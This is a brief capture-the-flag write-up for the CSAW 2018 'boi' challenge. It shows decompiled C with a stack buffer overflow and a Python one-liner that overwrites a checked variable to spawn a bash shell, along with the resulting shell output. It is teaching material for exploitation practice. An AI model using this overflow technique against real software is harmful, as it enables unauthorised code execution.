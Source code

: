 # CSAW 2018 boi

Looking at the decompilation, there's a clear buffer overflow. In order to get a shell, we simply have to overwrite a variable.

```c
  local_38 = 0;
  local_30 = 0;
  local_20 = 0;
  local_28 = 0;
  iStack36 = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&local_38,0x18);
  if (iStack36 == -0x350c4512) {
    run_cmd("/bin/bash");
  }
```

```bash
[root@pwn:~/code/nightmare/csaw18_boi]$ (python -c 'print "A" * 20 + "\xEE\xBA\xF3\xCA"'; cat -) | ./boi 
Are you a big boiiiii??
whoami
root
```